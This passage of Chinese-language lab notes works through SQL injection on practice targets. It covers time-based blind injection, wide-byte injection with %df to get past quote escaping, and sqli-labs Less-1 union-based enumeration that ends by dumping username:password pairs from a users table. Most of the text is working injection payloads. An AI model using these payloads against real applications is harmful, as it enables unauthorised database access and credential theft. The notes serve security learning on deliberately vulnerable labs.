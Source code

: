 **猜值**

```
?name=kobe' or if(ascii(substr((select group_concat(username,":",password) from users),1,1))=97,sleep(3),1)--+
//通过ASCII码大小判断得到数据

?name=kobe' or if(substr((select group_concat(username,":",password) from users),1,1)='a',sleep(3),1)--+
//判断得到数据
```



### 宽字节注入

#### 考点：

注意这里的引号需要绕过

#### 思考

```
1%df%5c%27 union select 1,database()%23
%df%5c' union select 1,database()%23	
```

```
1%df%5c%27 union select 1,group_concat(table_name) from information_schema.tables where table_schema=database()%23
```

```
1%df%5c%27 union select 1,group_concat(column_name) from information_schema.columns where table_name=0x7573657273(这里为users的16进制表示)%23
```

```
1%df%5c%27 union select 1,group_concat(username,0x3b,password) from users --+
```





## sqli-labs

### less-1

#### 考点：

`?id=1' --+`，没有报错，判断数显位数后，直接注入

#### 思路：

**payload**

```
?id=0' order by 3 --+	//一共3位
?id=0' union select 1,2,3 --+	//共3位，数显位2，3位

?id=0' union select 1,2,database() --+	//库名为：security

?id=0' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema="security" --+
//表名有：emails,referers,uagents,users

?id=0' union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users"--+
//列名有：id,username,password,level,id,username,password

?id=0' union select 1,2,group_concat(username,':',password) from users--+
```
